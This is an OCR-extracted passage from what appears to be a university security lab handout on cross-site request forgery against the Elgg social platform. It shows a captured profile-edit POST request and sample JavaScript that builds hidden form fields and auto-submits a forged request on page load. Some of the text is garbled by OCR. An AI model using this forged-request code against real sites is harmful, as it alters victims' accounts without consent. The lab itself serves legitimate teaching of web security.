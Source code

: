 Content-Length: 642

__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&amp;__elgg_ts=1403464813 P

&amp;name=elgguser1&amp;description=%3Cp%3Iamelgguser1%3C%2Fp%3E

&amp;accesslevel%5Bdescription%5D=2&amp;briefdescription= Iamelgguser1

&amp;accesslevel%5Bbriefdescription%5D=2&amp;location=US

……                                                                                                                                                                               P

After understanding the structure of the request, you need to be able to generate the request from your attacking web page using JavaScript code. To help you write such a JavaScript program, we provide a sample code in the following You can use this sample code to construct your malicious web site for the CSRF attacks. This is only a sample code, and you need to modify it to make it work for your attack.

&lt;html&gt;

&lt;body&gt; &lt;h1&gt;This page forges an HTTP POST request.&lt;/h1&gt; &lt;script type=”text/javascript”&gt;

function forge_post()

{

<table width="624">

 <tbody>

  <tr>

   <td width="624">var fields;// The following are form entries need to be filled out by attackers. // The entries are made hidden, so the victim won’t be able to see them. fields += “&lt;input type=’hidden’ name=’name’ value=’****’&gt;”; fields += “&lt;input type=’hidden’ name=’briefdescription’ value=’****’&gt;”; fields += “&lt;input type=’hidden’ name=’accesslevel[briefdescription]’value=’2’&gt;”;                                                                        Àfields += “&lt;input type=’hidden’ name=’guid’ value=’****’&gt;”;// Create a &lt;form&gt; element. var p = document.createElement(“form”);// Construct the formp.action = “http://www.example.com”;p.innerHTML = fields;p.method = “post”;// Append the form to the current page. document.body.appendChild(p);// Submit the form p.submit();}// Invoke forge_post() after the page is loaded.window.onload = function() { forge_post();}&lt;/script&gt;&lt;/body&gt;&lt;/html&gt;</td>

  </tr>

 </tbody>

</table>

In Line À, the value 2 sets the access level of a field to public. This is needed, otherwise, the access level will be set by default to private, so others cannot see this field. It should be noted that when copy-andpasting the above code from a PDF file, the single quote character in the program may become something else (but still looks like a single quote). That will cause syntax errors. Replace all the single quote symbols with the one typed from your keyboard will fix those errors.

Questions. In addition to describing your attack in full details, you also need to answer the following questions in your report:
